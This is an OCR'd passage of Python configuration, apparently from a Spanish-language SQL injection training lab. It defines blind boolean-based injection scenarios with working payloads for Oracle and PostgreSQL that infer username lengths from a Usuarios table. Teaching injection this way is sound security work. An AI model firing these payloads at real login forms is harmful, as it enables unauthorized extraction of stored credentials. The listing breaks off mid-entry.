 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python]
                "usuario":"' OR (SELECT CASE WHEN (LENGTH(username) = 33) THEN 1/0 ELSE 1 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --",
                "password":"cualquier_input"
            }
        ],
        "usuario": "admin",
        "clave": "admin",
        "route_oracle": "login_oracle_boolean",
        "route_postgres": "login_postgres_boolean",
        "function_oracle": login_inseguro_base_oracle,
        "function_postgres": login_inseguro_base_postgresql
    },
    "blind_boolean": {
        "title": "Blind Boolean-Based SQL Injection",
        "is_blind": True,
        "description": """
            <p>Es una técnica empleada por atacantes para extraer información de una base de datos cuando la aplicación no muestra directamente los resultados de las consultas SQL ni proporciona mensajes de error detallados. En este escenario, el atacante infiere la información observando las diferencias en las respuestas de la aplicación al enviar consultas que evalúan condiciones booleanas.</p>
        """,
        "dificultad": 3,
        "impacto": 3,
        "credenciales":[ # usuario/password en este caso serían payload que devuelva True y False respectivamente
            {
                "nombre":"Entendiendo la inyección",
                "usuario":"d382yd8n21df4314fn817yf6834188ls023d8d' AND '1'='1",
                "password":"d382yd8n21df4314fn817yf6834188ls023d8d' AND '1'='2"
            },
            {
                "nombre":"Sacando la longitud de un campo (Oracle)",
                "usuario":"d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (LENGTH(username) = 5) THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --",
                "password":"d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (LENGTH(username) = 33) THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --"
            },
            {
                "nombre":"Sacando la longitud de un campo (PostgreSQL)",
                "usuario":"d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (LENGTH(username) = 5) THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --",
                "password":"d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (LENGTH(username) = 33) THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --"
            },
            {
                "nombre":"Sacando un carácter de un campo (Oracle)",

\end{lstlisting}
\end{document}

